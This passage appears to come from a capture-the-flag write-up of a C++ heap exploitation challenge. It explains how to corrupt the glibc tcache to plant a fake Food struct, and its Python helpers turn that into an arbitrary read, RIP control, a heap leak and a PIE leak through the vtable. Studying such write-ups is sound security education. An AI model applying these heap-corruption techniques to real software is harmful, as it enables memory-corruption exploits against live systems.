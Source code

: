 I do _even more experiments_, and I hit a good solution:

1. Make sure the tcache is empty; it's LIFO.
2. create a new `unique_ptr` at `foods[idx]`, where `foods[idx]` has never been allocated before. Ensure that `name.size() > 0x28` to keep `tcache[size=0x30]` empty.
3. favorite `foods[idx]`; repeat step 2. `tcache[size=0x30]` should _only_ contain `favorites` now.
4. create a new `unique_ptr` at `foods[nidx]`, where `foods[nidx]` has never been allocated before, and `name.size()` lies within [0x10, 0x18).
5. If `foods[nidx]` was a Bamboo<sup>5</sup>, `favorites` remains at the top of `tcache[size=0x30]`, and step 4 should be repeated. Otherwise, `favorites` was overwritten with the `name` from step 4.
   `favorites` has a `(1/2)**i` chance of being overwritten correctly, where `i` is the number of times step 4 happens. 

Programmatically:

```python
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30)
    alloc(idx, b'b'*60)
    fav(idx)
    alloc(idx, b'b'*60)
    for i in range(10): alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0'))
    return idx
```

This works reliably (1/1024 failure rate), so long as `payload` contains no whitespace (~1/15 failure rate). Right now, I have:

1. a reliable exploit that produces an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Can I finish the challenge? Maybe.

### Exploitation minutiae

First of all, I need to figure out the offsets to get from leak-to-leak. The heap base is easy to figure out:

```python
heapbase = (heapleak>>12)<<12
```

But what do you do with that? I need to find the location of an active `struct Food` in memory for leaking, so I search for it:

```python
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')
alloc(1, b'a'*7)
search_str = b'\0%s\0' % (b'a'*7)
foods1_offset = next(i for i in range(0,99999,0x1000) if search_str in (dat := pack(leak(heapbase+i,0x1000),'all')))
foods1_offset+= dat.index(search_str)-0x17 # -0x17 because that's the distance from this string to the _vtable.
PIE_leak = leak(heapbase+foods1_offset) # this is a leak of `food[idx]->_vtable`. 
```
